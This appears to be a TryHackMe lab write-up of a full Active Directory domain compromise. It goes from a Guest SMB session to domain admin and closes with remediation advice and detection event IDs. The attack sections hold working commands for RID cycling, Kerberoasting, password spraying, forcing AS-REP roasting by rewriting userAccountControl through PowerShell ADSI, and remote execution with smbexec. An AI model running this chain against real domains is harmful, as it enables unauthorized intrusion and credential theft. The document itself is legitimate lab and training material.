# Operation Endgame — Active Directory Compromise Report

> **Platform:** TryHackMe · **Category:** Active Directory / Red Team · **Target OS:** Windows Server (Domain Controller)
> **Objective:** Escalate from an unauthenticated foothold to full domain compromise and retrieve the administrator flag.
> **Toolset:** Nmap, Impacket (`lookupsid.py`, `GetUserSPNs.py`, `GetNPUsers.py`, `smbexec.py`), NetExec, John the Ripper, BloodHound (Python ingestor + Neo4j), Apache Directory Studio, xfreerdp3, PowerShell `[ADSI]`.

---

## Executive Summary

A complete Active Directory compromise was achieved starting from a fully **unauthenticated** position by chaining several common enterprise misconfigurations:

1. **SMB Guest session allowed** → authenticated-but-unprivileged access.
2. **RID cycling over SAMR** → complete domain user enumeration.
3. **Kerberoasting** → cracked service account password (**CODY_ROY**) offline.
4. **Password reuse** across the domain → credential spray yielded a second account (**ZACHARY_HUNT**).
5. **Overly permissive ACL (`GenericWrite`)** on a Tier-2 user object → disabled Kerberos pre-authentication on **JERRI_LANCASTER**, enabling a *forced* AS-REP Roast.
6. **Plaintext credentials stored in a script** (`syncer.ps1`) → privileged account **SANFORD_DAUGHERTY** and full compromise.

Each individual weakness was survivable on its own; combined, they resulted in total domain takeover within a short engagement window.

### Attack Chain Overview

```text
Anonymous SMB ──► Guest Session ──► RID Cycling ──► Domain User List
                                                        │
                                            Kerberoasting (TGS / RC4)
                                                        │
                                                CODY_ROY (cracked)
                                                        │
                             RDP Access ◄──── BloodHound Analysis
                                                        │
                                  Password Spray (credential reuse)
                                                        │
                                              ZACHARY_HUNT
                                                        │
                     GenericWrite ─► DONT_REQ_PREAUTH on JERRI_LANCASTER
                                                        │
                                        Forced AS-REP Roasting
                                                        │
                                          JERRI_LANCASTER (READER_ADMINS)
                                                        │
                                syncer.ps1 (plaintext credentials)
                                                        │
                                      SANFORD_DAUGHERTY (Admin) ──► FLAG
```

---

## 1. Reconnaissance

### 1.1 Host Discovery & Full Port Scan

An initial TCP SYN scan across the entire port range was executed to identify exposed services on the domain controller:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv $IP -oG allPorts
```

| Flag | Purpose |
|------|---------|
| `-p-` | Scans all 65,535 TCP ports |
| `-sS` | SYN (half-open) stealth scan |
| `--open` | Reports only open ports |
| `--min-rate 5000` | Enforces a minimum packet rate to accelerate the scan |
| `-n` | Disables DNS resolution |
| `-Pn` | Skips host discovery (assumes the host is up) |
| `-oG allPorts` | Greppable output for automated parsing |



The scan revealed a classic **Domain Controller footprint**: DNS (53), Kerberos (88/464), LDAP/LDAPS (389/636), Global Catalog (3268/3269), SMB (139/445), RPC EPMapper (135/593/dynamic range) and RDP (3389).

### 1.2 Service & Version Enumeration

A targeted scan with service/version detection and default NSE scripts was launched against every open port:

```bash
sudo nmap -p53,80,88,135,139,389,443,445,464,593,636,3268,3269,3389,9389,47001,\
49664,49665,49666,49667,49669,49670,49671,49675,49676,49679,49689,49717,49719 \
-sCV $IP -oN targeted
```



---

## 2. Enumeration

### 2.1 SMB Share Enumeration — Anonymous Access

An unauthenticated (null) session was attempted against the SMB service to enumerate shares:

```bash
nxc smb $IP -u '' -p '' --shares
```



The server rejected the null session, so no anonymous share listing was possible through this vector.

### 2.2 Guest Session — Foothold via Weak Account Policy

Unlike a true null session, the built-in **Guest** account sometimes accepts authentication with an empty password while still mapping to limited access. Testing this common configuration weakness succeeded:



Access to the `IPC$` share was granted under the Guest context. While this account has no meaningful share-level privileges, an authenticated SMB session exposes the **SAMR remote interface**, which can be abused for user enumeration even without any read/write permissions on shares.

### 2.3 RID Cycling via SAMR

With a valid session established, RID cycling was performed against the domain SID. Every local/domain security principal is assigned a Relative Identifier (RID); requesting lookups for sequential RIDs over SAMR reveals which ones exist, regardless of the caller's privileges:

```bash
lookupsid.py 'thm.local/Guest:'@$IP > RID_cycling_output.txt
```



The output was parsed into a clean username dictionary for later attacks:

```bash
grep SidTypeUser RID_cycling_output.txt | awk '{print $2}' | cut -d'\' -f2 > users_list.txt
```

This produced a complete list of domain users (**users_list.txt**) without ever holding a privileged credential.

---

## 3. Initial Access — Kerberoasting

### 3.1 Requesting Service Tickets (TGS)

Kerberoasting abuses the design of Kerberos service tickets: any authenticated user may request a TGS for any account holding an SPN, and that ticket is encrypted with a key derived from the target account's password — making it an offline cracking oracle.

Using the Guest session, SPN-bearing accounts were enumerated and a TGS was requested:

```bash
GetUserSPNs.py 'thm.local/Guest:'@$IP -request -outputfile kerberoast_hashes.txt
```



A crackable TGS (RC4/etype 23, `$krb5tgs$23$` format) was obtained for the user **CODY_ROY**:

```bash
echo '<TGS_HASH>' > CODY_TGS.txt
```



### 3.2 Offline Password Cracking

The ticket hash was cracked offline with John the Ripper using `rockyou.txt` (the `krb5tgs` format is auto-detected):

```bash
john CODY_TGS.txt --wordlist=/usr/share/wordlists/rockyou.txt
```



The plaintext password for **CODY_ROY** was recovered:



With valid domain credentials in hand, the engagement moved from *unauthenticated enumeration* to *authenticated attack surface*.

---

## 4. Situational Awareness — BloodHound & RDP Access

### 4.1 Active Directory Data Collection

BloodHound graph theory analysis was used to map the domain's trust relationships, ACLs, group memberships and candidate attack paths. Collection was performed remotely with the Python ingestor:

```bash
mkdir bloodhound && cd bloodhound
bloodhound-python -u CODY_ROY -p '<PASSWORD>' -d thm.local -ns $IP -c All
sudo neo4j start
bloodhound
```



The resulting JSON objects (users, groups, computers, domains, GPOs, sessions, ACLs) were ingested into the BloodHound GUI:



### 4.2 Analysis of CODY_ROY

**CODY_ROY** was marked as *Owned* to track reachability from this starting node:



Analysis showed membership in the following groups:





Key findings:

- **REMOTE DESKTOP USERS** → interactive RDP logon rights against the domain controller (`AD.thm.local`).
- **DOMAIN USERS** → standard authenticated access across the domain.

BloodHound's edge abuse information confirmed the RDP path:



An interactive RDP session was established:

```bash
xfreerdp3 /u:CODY_ROY /d:thm.local /v:$IP /auth-pkg-list:NTLM /cert:ignore +clipboard /dynamic-resolution
```

### 4.3 Post-Logon Reconnaissance

Filesystem exploration revealed limited privileges for this user; the most notable exposure was read access to the **Scripts** directory and portions of other users' profiles, though no sensitive data was recovered at this stage:





---

## 5. Credential Hunting — LDAP & Directory Enumeration

### 5.1 LDAP Enumeration with Apache Directory Studio

An authenticated LDAP browse over port 389 was performed using Apache Directory Studio to inspect users, groups, machines, SPNs and object attributes directly:





### 5.2 Sensitive Data Exposure in Object Descriptions

While reviewing the OU **`THM\DC\Tier 2`**, the user **MARGARITO_HAMILTON** exhibited a suspicious `description` attribute:



The description read `Pw USERNAME_RESET_ASAP`, suggesting an operator had stored password material in a directory attribute — a well-known anti-pattern. A candidate dictionary was generated from the previously harvested user list (`USERNAME_RESET_ASAP`, `Pw_USERNAME_RESET_ASAP`, etc.) for spraying, but **no combination validated** against any account.

### 5.3 Password Spray via Credential Reuse

Pivoting strategy: instead of guessing, the *already-validated* CODY_ROY password was sprayed across all enumerated users to detect credential reuse. NetExec was used with `--no-bruteforce` to pair each username with the single candidate password (avoiding multi-attempt lockout behavior) and `--continue-on-success` to enumerate every valid pair:

```bash
nxc smb $IP -u users_list.txt -p 'CODY_ROY_PASSWORD' --no-bruteforce --continue-on-success
```

The spray succeeded against **ZACHARY_HUNT** — direct evidence of domain-wide password reuse:


### 5.4 Analysis of ZACHARY_HUNT

BloodHound revealed that ZACHARY_HUNT is a member of **REMOTE MANAGEMENT USERS** (WinRM/PS Remoting access):



More critically, its **First Degree Object Control** panel exposed outbound control over the user **JERRI_LANCASTER**:



ZACHARY_HUNT also holds membership in the **READER_ADMINS** group:



The Windows abuse information for the ACL edge confirmed a `GenericWrite` primitive over JERRI_LANCASTER's directory object — the ability to modify arbitrary attributes, including `userAccountControl`:



A parallel RDP session was opened as ZACHARY_HUNT to execute the attack interactively:

```bash
xfreerdp3 /u:ZACHARY_HUNT /d:thm.local /v:$IP /auth-pkg-list:NTLM /cert:ignore +clipboard /dynamic-resolution
```

---

## 6. Privilege Escalation — Forced AS-REP Roasting via GenericWrite

### 6.1 Attack Rationale

`GenericWrite` over JERRI_LANCASTER's AD object allows modification of any writable attribute, including the `userAccountControl` bitmask. Writing the **`DONT_REQ_PREAUTH`** flag (**`0x400000`**) disables Kerberos pre-authentication for the account.

Without pre-authentication, the KDC will hand an AS-REP to *anyone* who requests one, and that response is encrypted with a key derived from the target's password — a self-inflicted AS-REP Roast whose material can be cracked offline.

> **Corroborating evidence:** the accounts already AS-REP-roastable in this domain carried exactly `UAC 0x410200` = `NORMAL_ACCOUNT (0x200)` + `DONT_EXPIRE_PASSWORD (0x10000)` + `DONT_REQ_PREAUTH (0x400000)`.

Target value calculation:

```text
NORMAL_ACCOUNT        0x000200  =      512
DONT_EXPIRE_PASSWORD  0x010000  =   65,536
DONT_REQ_PREAUTH      0x400000  =4,194,304
-------------------------------------------
0x410200                        =4,260,352
```

### 6.2 Modifying `userAccountControl`

The attribute was modified over LDAP from the Windows session using PowerShell's `[ADSI]` adapter:

```powershell
$u  = [ADSI]"LDAP://CN=JERRI_LANCASTER,OU=TIER 2,DC=THM,DC=LOCAL"
$u.userAccountControl = 4260352
$u.SetInfo()

# Verification
$u2 = [ADSI]"LDAP://CN=JERRI_LANCASTER,OU=TIER 2,DC=THM,DC=LOCAL"
$u2.userAccountControl    # Expected: 4260352 (0x410200)
```



### 6.3 Requesting & Cracking the AS-REP

With pre-authentication disabled on JERRI_LANCASTER, an AS-REP roast was executed against that specific account (`-no-pass` requests the unauthenticated ticket directly):

```bash
echo JERRI_LANCASTER > jerry.txt

GetNPUsers.py thm.local/ZACHARY_HUNT:'<PASSWORD>' -dc-ip $IP -usersfile jerry.txt -request -no-pass
```



The returned hash (`$krb5asrep$23$` format) was saved and cracked offline:

```bash
echo '<AS_REP_HASH>' > Jerri_ASREP.txt
john Jerri_ASREP.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

The plaintext password for **JERRI_LANCASTER** was recovered:



---

## 7. Credential Discovery — Plaintext Secrets in Scripts

### 7.1 Expanded Access via READER_ADMINS

An RDP session was established as JERRI_LANCASTER:

```bash
xfreerdp3 /u:JERRI_LANCASTER /d:thm.local /v:$IP /auth-pkg-list:NTLM /cert:ignore +clipboard /dynamic-resolution
```

Consistent with BloodHound's mapping, membership in **READER_ADMINS** granted read access to previously inaccessible directories — including the **Scripts** share/folder.

### 7.2 Harvesting Credentials from `syncer.ps1`

Reviewing the Scripts directory revealed `syncer.ps1`, which contained **plaintext credentials** for another account:

```powershell
type C:\Scripts\syncer.ps1
```



The exposed credentials belonged to **SANFORD_DAUGHERTY**, whose group memberships confer **full administrative privileges** in the domain:



---

## 8. Full Domain Compromise — Flag Retrieval

With administrative credentials, command execution was obtained over SMB via `smbexec` to read the administrator's desktop flag:

```bash
nxc smb $IP -u SANFORD_DAUGHERTY -p '<PASSWORD>' --exec-method smbexec \
  -x "type C:\Users\Administrator\Desktop\flag.txt.txt"
```




**Flag captured — objective complete.**

---

## 9. Findings & Remediation Recommendations

| # | Finding | Impact | Recommendation |
|---|---------|--------|----------------|
| 1 | SMB Guest/null sessions permitted | Unauthenticated user enumeration foothold | Disable the Guest account; enforce `Restrict anonymous` / reject SMB null sessions |
| 2 | Kerberoastable accounts with weak passwords | Offline cracking → valid credentials | Enforce ≥25-char random passwords or migrate services to **gMSA**; prefer AES etypes over RC4 |
| 3 | Domain-wide password reuse | Single crack → multiple accounts | Deploy breached-password screening (e.g., Azure AD Password Protection); enforce uniqueness |
| 4 | Dangerous ACLs (`GenericWrite`) on user objects | Attribute tampering → forced AS-REP roast | Audit with BloodHound/SharpHound; remove unnecessary WriteDacl/WriteProperty; adopt tiered admin model |
| 5 | Accounts without Kerberos pre-authentication | Trivial offline credential attacks | Require pre-auth on all accounts; alert on UAC changes (Event ID **4738**) |
| 6 | Plaintext credentials in scripts | Privileged account disclosure | Remove secrets from scripts/SYSVOL; use gMSA, LAPS, or a secrets vault |
| 7 | Excessive RDP/WinRM membership | Interactive access for low-priv users | Restrict Remote Desktop Users / Remote Management Users; require MFA and jump hosts |

## 10. Lessons Learned

- A single low-value misconfiguration (Guest SMB) cascaded into full compromise when combined with weak hygiene at every tier of the directory.
- **ACL hygiene is as critical as password hygiene**: a single `GenericWrite` edge converted a standard user into an offline-cracking oracle against another account.
- Defensive monitoring opportunities existed at every stage: SAMR RID enumeration, bulk TGS requests (Event ID 4769), UAC modifications (4738), and anomalous spray patterns (4625 bursts).

---
*Report prepared for educational purposes within the TryHackMe lab environment. All techniques were executed against authorized target infrastructure.*
